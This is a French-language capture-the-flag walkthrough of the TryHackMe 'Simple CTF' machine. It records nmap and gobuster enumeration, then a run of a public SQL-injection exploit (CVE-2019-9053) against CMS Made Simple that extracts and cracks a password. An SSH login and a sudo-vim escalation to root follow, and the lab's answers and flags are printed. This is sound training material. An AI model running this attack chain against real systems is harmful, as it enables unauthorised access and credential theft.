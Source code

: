 # Simple CTF #

***

Nous allons faire un scan la machine avec nmap

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nmap -A 10.10.63.136
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-14 13:45 CEST
Nmap scan report for 10.10.63.136
Host is up (0.038s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.228.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.93 seconds
```

Nous allons répondre à quelques questions à partir des résultats.

**How many services are running under port 1000?**

Ici on voit 2 services qui fonctionne.
réponse : 2

**What is running on the higher port?**
Le plus haut port est le 2222, qui est le service SSH.
réponse : ssh

***

**What's the CVE you're using against the application?**  
A partir de scan de nmap ou voit qu'il a le service http sur le port 80 qui est ouvert.
Faisons un fuzzing avec gobuster pour voir si il y a pas de liens qui existes.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://10.10.63.136 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.63.136
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/14 14:09:45 Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 313] [--> http://10.10.63.136/simple/]
/server-status        (Status: 403) [Size: 300]                                  
Progress: 115990 / 220561 (52.59%)                                              ^C
[!] Keyboard interrupt detected, terminating.
                                                                                 
===============================================================
2021/07/14 14:17:19 Finished
===============================================================
```

On voit qu'un lien vers /simples/ existe examinons le.  

```bash
#                                                                                                                                                                                                                 Home - Pentest it (p3 sur 3)
          + Top simple navigation + left subnavigation + 1 column
          + CSSMenu top + 2 columns
          + CSSMenu left + 1 column
          + Minimal template
          + Higher End
     * Default Extensions
          + Modules
          + Tags

     * Twitter
     * Facebook
     * LinkedIn
     * YouTube
     * Google Plus
     * Pinterest

   © Copyright 2004 - 2021 - CMS Made Simple
   This site is powered by CMS Made Simple version 2.2.8
```

A la fin du site web on voit que le nom de CMS est CMS Made Simple version 2.2.8

***

Faisons une recherche.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ searchsploit CMS Made simple 2.2.8
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                                                                                                                                                    | php/webapps/46635.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

tim@kali:~/Bureau/tryhackme/write-up$ cat /usr/share/exploitdb/exploits/php/webapps/46635.py | grep CVE
# CVE : CVE-2019-9053
```

Ici on voit que c'est le CVE-2019-9053.

Notre réponse est : CVE-2019-9053

***

**To what kind of vulnerability is the application vulnerable?**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat /usr/share/exploitdb/exploits/php/webapps/46635.py | head
#!/usr/bin/env python
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053
```

On voit ici c'est une SQL Injection, autrement dit sqli.
La réponse est : sqli

***

**What's the password?**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ cp  /usr/share/exploitdb/exploits/php/webapps/46635.py .
tim@kali:~/Bureau/tryhackme/write-up$ cat /usr/share/wordlists/rockyou.txt | grep  ^......$ > 6lettres.txt
tim@kali:~/Bureau/tryhackme/write-up$ python 46635.py -u http://10.10.31.41/simple/ --crack -w ./6lettres.txt
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
J'utilise un exploit avec les mots de longueur de 6 lettres car c'est sinon c'est long, je connais la longueur de mot de passe grasse au nombre d'astérisque dans la question.  

Ici le mot de passe est : secret 

***

**Where can you login with the details obtained?**

Dans le scan nmap au port 2222 on voit le service SSH.
```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh mitch@10.10.31.41 -p 2222
The authenticity of host '[10.10.31.41]:2222 ([10.10.31.41]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.31.41]:2222' (ECDSA) to the list of known hosts.
mitch@10.10.31.41's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ 
```

***

**What's the user flag?**
```bash
$ pwd
/home/mitch
$ cat user.txt
G00d j0b, keep up!
```

La réponse est : G00d j0b, keep up!  

***

**Is there any other user in the home directory? What's its name?**
```bash
$ cd ..
$ ls
mitch  sunbath
$ 
```

Ici on voit que l'autre utilisateur : sunbath

***

**What can you leverage to spawn a privileged shell?**

```bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
``` 

On voit que pour l'utilisateur mitch la commande sudo ne demande aucun mot de passe pour /usr/bin/vim 

Réponse : vim

***

**What's the root flag?**

On utilise vim pour lire le dernier flag.

```bash
sudo /usr/bin/vim /root/root.txt
W3ll d0n3. You made it!
```
La réponse est : W3ll d0n3. You made it!  